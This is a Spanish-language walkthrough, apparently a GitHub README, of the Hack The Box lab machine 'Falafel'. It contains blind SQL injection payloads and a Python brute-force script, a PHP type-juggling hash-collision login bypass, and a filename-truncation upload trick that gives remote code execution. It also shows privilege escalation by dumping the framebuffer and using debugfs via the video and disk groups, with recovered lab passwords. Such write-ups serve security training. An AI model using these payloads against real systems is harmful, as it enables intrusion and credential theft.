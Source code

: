 # Falafel-htb

## NMAP 

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/ffd07a22-4230-406d-b6bc-02d705ac03d7)


En el puerto 80 se encuentra un portal con un login si intentamos ingresar datos para ver como se comporta nos damos cuenta que existe el usuario admin e incluso se pueden enumerar usuarios.

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/00e9573b-abce-4d5e-a3ae-91c80a12df17)

Tambien nos damos cuenta que el portal es vulnerable sql injection. Se puede usar este mensaje para una blind SQLI.

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/59e9e1b7-fadd-4ba3-9f74-8290b9203e93)


```
admmin' or 1=1-- -
admin' order by 100-- - # Manda error lo que seria un indicador claro que si es vulnerable.
```

Para aprovecharlo si esta bien nos va a mostrar el otro mensaje

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/03bb7c46-b5b9-44a1-9e79-644676ae6530)

```
admin' and substring(username,1,1)='a'-- -

Saldra mensaje de que el usuario es correcto pero no el password si esta mal pone Try again.

admin' and substring(username,1,1)='a'-- -
```

Script s4vitar

```
#!/usr/bin/python3


from pwn import *
import requests,time, sys, pdb, signal, string

def def_handler(sig, frame):
	print("\n\n[!] Saliendo...\n")
	sys.exit(1)


#Ctrl + C


signal.signal(signal.SIGINT, def_handler)

# Variables globales

login_url="http://10.129.229.139/login.php"
characters=string.ascii_lowercase + string.digits



def makeSQLI():

	p1 = log.progress("SQLI")
	p1.status("Iniciando  proceso de fuerza bruta")	
	time.sleep(2)


	p2 = log.progress("Password")
	password = ""

	for position in range(1,50):
		pass
		for character in characters:
			pass

			post_data = { 'username': "admin' and substring(password,1,1)='%s'-- -" %character,
							'password': 'test'
							}

			p1.status(post_data['username'])

			r = requests.post(login_url, data=post_data)

			if "Try again.." not in r.text:
				password = character
				p2.status(password)
				break





if __name__ == '__main__':
	makeSQLI()
```

## PHP Juggling 

Una vez que sacamos el hash del usuario admin probamos esta vulnerabiidad. Esta vulnerabilida se proboca por no usar tres = en una comparacion entonces cosas que no son iguales al compararlas mal si son iguales por ejemplo:

```
  $ echo -n 240610708 | md5sum
    0e462097431906509019562988736854  -
    $ echo -n QNKCDZO | md5sum
    0e830400451993494058024219903391  -
    $ echo -n aabg7XSs | md5sum
    0e087386482136013740957780965295  -
```

El hash osea la contraseña del usuario admin empieza con 0e  entonces buscamos una colicion que empiece con 0e php se va a equivocar y nos va a tomar cualquiera de las contraeeñas de arriba como una contraseña valida una vez que el usuario ingrese la contraseña y este se hashee.

## RCE

El limite de tamaño de nombre de un archivo en Linux es 255 y siempre que tengas wget e visto que puede tener este tipo de vulnerabilidades. entonces lo qu ehace es que corta el nombre del archivo a los 232 bytes mas 4 osea apartir del 232 puedes poner el .php y para pasar la proteccion de solo subir imagenes pues pones .php.jpg.


![image](https://github.com/gecr07/Falafel-htb/assets/63270579/efcfecac-9ce4-4d31-aa2e-e67f2d465d67)


```
http://10.10.15.72/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.JPG
```


![image](https://github.com/gecr07/Falafel-htb/assets/63270579/46fbdf73-385b-4c98-9f74-1a2ab7bf714d)


Para saber los limites utilice la herramienta para exploit de metasploit.

```
# Primero esta
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255

# Y para saber el offset donde se corta esta

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 255 -q h7Ah 
```

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/d2497383-dfbb-475a-ad47-456496dc1a54)


## Priv escalation 

Ya una vez dentro revisamos los datos de la conexion a la base de datos y nos da la contraseña del usuario moshe

```

moshe

falafelIsReallyTasty

```


![image](https://github.com/gecr07/Falafel-htb/assets/63270579/8043397d-6b3d-4466-9e2a-3c8041039ef4)

Como este usuario pertenece al grupo video

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/5d9214dc-7bfa-431b-be9d-433fd4d1e9b2)

Es posible que puedan tomar capturas de pantalla. Usamos el w para ver que usuario esta loggeado

```
w
```
El archivo para sacar una captura de pantalla la pasamos a nuestro equipo y la abrimos como RAW se prueban varios formatos RAw y la abrimos con un editor tipo adobe photoshop pero de linux llamdo gimp

```
cat /dev/fb0 > out
gimp
```

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/ea171245-8c8f-41d0-94f9-53bb35927cda)


Para que nos muestre las coordenadas correctas se tiene que sacar el size:

```
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
```

COn lo cual ya tenemos ahora las credenciales del usuario yossi:

```

yossi

MoshePlzStopHackingMe!

```

### debugfs

debugfs es un sistema de archivos especial disponible en el núcleo Linux desde la versión 2.6.10-rc3.​ Si te encuentras en el grupo disk practicamente tienes acceso a cualquier directorio del sistema

```
debugfs /dev/sda1
```

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/195c68e7-1258-4bc4-8d4d-f8d0c76ce5a6)

Ya tenemos acceso a lo que sea del sistem

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/88ad209e-18b2-431a-a7aa-c29f1e1ad3e4)

Podemos leer la flag...


# Bibliografia

Los grupos que son peligrosos tal como video o como disk todo lo puedes encontrar aqui

> https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe



































































